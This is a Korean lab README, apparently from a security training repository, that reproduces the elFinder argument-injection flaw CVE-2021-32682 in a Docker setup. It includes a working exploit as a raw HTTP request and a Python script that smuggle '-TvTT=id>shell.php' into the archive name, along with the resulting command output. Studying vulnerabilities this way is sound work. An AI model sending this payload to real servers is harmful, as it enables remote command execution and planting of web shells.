 # elFinder ZIP 인자 주입 취약점으로 인한 Command Injection (CVE-2021-32682)
* elFinder는 jQuery UI 기반의 웹 오픈소스 파일 관리자입니다.
* elFinder 2.1.48 이하 버전에서 ZIP 아카이브 처리 과정 중 인자 주입 취약점이 발견되었습니다.
* 공격자는 최소한의 구성으로도 elFinder PHP Connector를 호스팅하는 서버에서 임의의 명령을 실행할 수 있습니다.
## 환경 구성 및 실행
1. 다음 명령어로 elFinder 2.1.48을 실행합니다.
```
docker compose up -d
```
2. 서버 시작 후 elFinder의 메인 페이지를 `http://127.0.0.1:8080`에서 확인할 수 있습니다.
## 취약점 재현
취약점 재현을 위하여 먼저 두 개의 파일을 만들어야 합니다.
`1.txt` 파일을 생성합니다.

![image][(https://github.com/user-attachments/assets/1602df64-885c-414d-a796-8717ba907713)](https://github.com/shinyColumn/whitehat-school-vulhub/blob/main/elFinder/CVE-2021-32682/1.png)

해당 파일을 ZIP 포멧으로 압축한 후, 파일 이름을 `2.zip`으로 변경합니다.

![image][(https://github.com/user-attachments/assets/719dadbf-eb63-42c0-8820-692b0ea62796)](https://github.com/shinyColumn/whitehat-school-vulhub/blob/main/elFinder/CVE-2021-32682/2.png)

`1.txt`와 `2.zip`을 확인합니다.

![image][(https://github.com/user-attachments/assets/719dadbf-eb63-42c0-8820-692b0ea62796)](https://github.com/shinyColumn/whitehat-school-vulhub/blob/main/elFinder/CVE-2021-32682/3.png)


다음 HTTP request를 전송합니다.
```
GET /php/connector.minimal.php?cmd=archive&name=-TvTT=id>shell.php%20%23%20a.zip&target=l1_Lw&targets%5B1%5D=l1_Mi56aXA&targets%5B0%5D=l1_MS50eHQ&type=application%2Fzip HTTP/1.1
Host: your-ip
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://localhost.lan:8080/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close

```
다음과 같은 python 코드를 통해 request를 전송할 수 있습니다.
```
import requests

url = "http://127.0.0.1:8080/#elf_l1_Lw/php/connector.minimal.php"

params = {
    "cmd": "archive",
    "name": "-TvTT=id>shell.php # a.zip",  
    "target": "l1_Lw",
    "targets[0]": "l1_MS50eHQ",  
    "targets[1]": "l1_Mi56aXA",  
    "type": "application/zip"
}

headers = {
    "Host": "127.0.0.1:8080",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
    "X-Requested-With": "XMLHttpRequest",
    "Referer": "http://localhost.lan:8080/",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7",
    "Connection": "close"
}

response = requests.get(url, params=params, headers=headers)
print(response.text)
```
해당 request에는 다음과 같은 정보가 포함되어 있습니다.
* `id>shell.php`로 명령어 실행 및 출력 저장.
* base64 디코딩 시 `target[0]`의 값 `MS50eHQ`는 `1.txt`, `target[1]`의 값 `Mi56aXA`는 `2.zip`.


request 전송 이후 `http://127.0.0.1:8080/#elf_l1_Lw/files/shell.php`를 입력하여 `shell.php`를 확인합니다.

![image][(https://github.com/user-attachments/assets/719dadbf-eb63-42c0-8820-692b0ea62796)](https://github.com/shinyColumn/whitehat-school-vulhub/blob/main/elFinder/CVE-2021-32682/4.png)

`shell.php`를 열어 명령어가 실행된 결과를 확인합니다.
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



